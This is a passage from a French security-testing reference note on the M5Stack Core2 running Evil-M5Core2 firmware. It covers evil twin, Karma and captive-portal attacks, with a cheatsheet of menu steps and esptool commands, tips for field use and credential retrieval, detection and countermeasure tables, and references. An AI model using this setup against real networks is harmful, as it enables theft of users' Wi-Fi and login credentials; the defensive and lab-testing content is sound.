| Un seul SSID à la fois | Couverture partielle | Multi-pass séquentiel |
| Batterie limitée (500mAh) | Durée de vie courte | Batterie externe |
| Wi-Fi 2.4 GHz uniquement | Pas de 5 GHz | M5Stamp C5 (dual-band) |
| Pas de WPA2-Enterprise | Credentials limités | Module 802.1X custom |
| Portée RF limitée | Zones étendues | Antenne externe |

### Cas où cette technique ne fonctionne pas

| Scénario | Raison |
|---|---|
| 802.1X obligatoire | Pas de bypass du certificat |
| Wi-Fi désactivé sur la cible | Pas de probes émises |
| WIDS très strict | Détection immédiate du rogue AP |
| Zone RF blindée | Pas de signal sortant |

---

## Cheatsheet

```
┌─────────────────────────────────────────────┐
│ M5Stack Evil Portal — Cheatsheet            │
├─────────────────────────────────────────────┤
│ Scan :     Menu → WiFi Scan                 │
│ Sniff :    Menu → Sniff Probes              │
│ Karma :    Sélection probe → Karma Attack   │
│ Portal :   Menu → Captive Portal → Start    │
│ WebCtrl :  http://192.168.4.1               │
│ Dump SD :  Retirer microSD, lire fichiers   │
│ Flash :    esptool.py write_flash 0x0 FW    │
│ Debug :    screen /dev/ttyUSB0 115200       │
└─────────────────────────────────────────────┘
```

| Action | Commande |
|---|---|
| Scan Wi-Fi | Via écran tactile M5 |
| Sniff probes | Via écran tactile M5 |
| Karma Attack | Via écran tactile M5 |
| Flash firmware | `esptool.py --port COM3 write_flash 0x0 firmware.bin` |
| Console debug | `screen /dev/ttyUSB0 115200` |
| Dump firmware | `esptool.py --port COM3 read_flash 0x0 0x400000 dump.bin` |

---

## Quick reference

| Élément | Valeur / Commande |
|---|---|
| **Fonction** | Evil Twin / Karma / Captive Portal / Probe Sniffing |
| **Brochage** | M5-Bus, GROVE (I2C+IO+UART), USB-C |
| **Vitesse par défaut** | Wi-Fi 2.4 GHz, UART 115200 baud |
| **Voltage** | 5V USB-C, 3.7V batterie |
| **Logiciel principal** | Evil-M5Core2 (Arduino IDE) |
| **Commande rapide** | `esptool.py --port COM3 write_flash 0x0 Evil-M5Core2.ino.bin` |

---

## Détection & Défense

| Signal | Méthode de détection | Outil |
|---|---|---|
| SSID fantôme | Détection de SSID dupliqués | WIDS (AirMagnet, Kismet) |
| Probe sniffing | Monitoring des probes clients | Wireshark, tcpdump |
| Rogue AP | Vérification de l'AP émettant | Wireless scanner |
| Portail captif | Vérification de la page de login | Browser security |

| Countermeasure | Efficacité | Implémentation |
|---|---|---|
| Désactiver Wi-Fi inutilisé | Élevée | Politique de sécurité |
| 802.1X (WPA2-Enterprise) | Très élevée | Infrastructure réseau |
| Anti-Karma (ne pas stocker probes) | Élevée | Configuration client |
| Monitoring RF | Élevée | WIDS / spectrum analyzer |

> [!tip] Défense
> La meilleure défense contre les attaques Karma est de **désactiver la connexion automatique** aux SSID connus et de **ne jamais stocker les probes** des réseaux non utilisés. Sensibiliser les utilisateurs à ne pas saisir de credentials sur des Wi-Fi inconnus.

---

## Tips & Pièges

- **Piège 1** : Version esp32 3.0.0-alpha3 = plantages → reste sur `v2.0.14` ou moins.
- **Piège 2** : La microSD doit être formatée en FAT32 avec les dossiers `IMG` et `sites` préparés.
- **Astuce 1** : L'attaque Karma fonctionne mieux avec un **bruit de fond Wi-Fi riche** (probes multiples).
- **Astuce 2** : Le **web server distant** permet de récupérer les identifiants sans rebrancher le device.
- **Bonne pratique** : Toujours tester en lab d'abord, vérifier la batterie, et sauvegarder le firmware original avant modification.

> [!tip] Astuces
> - Utiliser une **batterie externe 5000mAh** pour les opérations longues
> - Placer le M5Stack dans un **boîtier discret** pour les tests sur le terrain
> - Sauvegarder le firmware original avec `esptool.py read_flash` avant toute modification

---

## References

> [!info] **Sources**
> - [HardwareAllTheThings — M5Stack](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/gadgets/m5stack.md)
> - [Evil-M5Core2 — GitHub](https://github.com/7h30th3r0n3/Evil-M5Core2)
> - [M5Stack Documentation — Core2](https://docs.m5stack.com/en/core/Core2)
> - [M5Stack Product Catalog 2025](https://m5stack-doc.oss-cn-shenzhen.aliyuncs.com/1145/M5STACK_2025_PRODUCT_CATALOG.pdf)

### Documentation officielle

| Source | URL | Type |
|---|---|---|
| M5Stack Docs | https://docs.m5stack.com | Documentation officielle |
| Evil-M5Core2 | https://github.com/7h30th3r0n3/Evil-M5Core2 | Firmware open-source |
| ESP32 Datasheet | https://www.espressif.com | Spécifications hardware |

### Vidéos / Tutorials

| Titre | Auteur | Lien |
|---|---|---|
| Evil-M5Core2 Setup | 7h30th3r0n3 | GitHub README |
| M5Stack Core2 Tutorial | M5Stack | YouTube |
| Karma Attack with M5Stack | Various | YouTube |

### Livres / Articles

| Titre | Auteur | Année |
|---|---|---|
| Practical IoT Hacking | Chantzis et al. | 2021 |
| The IoT Hacker's Handbook | Aditya Gupta | 2019 |

---

**Liens :** [[13 - Hardware & IoT| Hardware & IoT]] · [[Hardware - ESP32| ESP32]] · [[Hardware - I2C et SPI| I2C/SPI]] · [[Hardware - Dump et Analyse de Firmware| Dump de firmware]]
